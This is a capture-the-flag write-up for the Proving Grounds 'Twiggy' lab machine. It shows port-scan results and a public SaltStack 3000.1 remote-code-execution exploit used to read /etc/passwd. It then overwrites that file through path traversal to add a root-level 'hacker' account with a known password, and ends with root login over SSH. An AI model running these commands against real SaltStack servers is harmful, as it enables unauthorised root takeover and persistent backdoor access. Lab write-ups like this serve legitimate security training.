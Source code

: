 ```yaml
---
title: "Proving grounds Practice: Twiggy"
layout: post
date: 2023-08-27 01:00
categories: writeup
---
```


Proving grounds Practice - Twiggy CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
```

## Web
### PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Twiggy/twiggy.png)

### PORT: 8000

![img](/assets/images/CTF/Proving_Grounds/Twiggy/8000.png)

The SaltStack Salt REST API is running.

![img](/assets/images/CTF/Proving_Grounds/Twiggy/salt.png)

SaltStack is vulnerable to [Saltstack 3000.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48421)

## Exploitation

```sh
python exploit.py --master 192.168.174.62 --read /etc/passwd
```

![img](/assets/images/CTF/Proving_Grounds/Twiggy/read.png)

unable to obtain reverse shell using the `--exec` command in the exploit but we will be able to create and add our own new user account to the `/etc/passwd` file.

### Create new user

```sh
openssl passwd hacked
$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1
```

`hacked` is the password.

Add the following to the `/etc/passwd` content we have extracted from the attacking machine.

```text
hacker:$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1:0:0:root:/root:/bin/bash
```

**Writing /etc/passwd file**

```sh
python exploit.py --master 192.168.174.62 --upload-src passwd --upload-dest ../../../../../../../../../../etc/passwd
```

![img](/assets/images/CTF/Proving_Grounds/Twiggy/write.png)

**Verify the user existence**

![img](/assets/images/CTF/Proving_Grounds/Twiggy/verify.png)

SSH to the attacking machine using the username as `hacker` and password `hacked`.

![img](/assets/images/CTF/Proving_Grounds/Twiggy/root.png)

**Root Obtained**

Thanks for reading!

For more insights and updates, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr). 
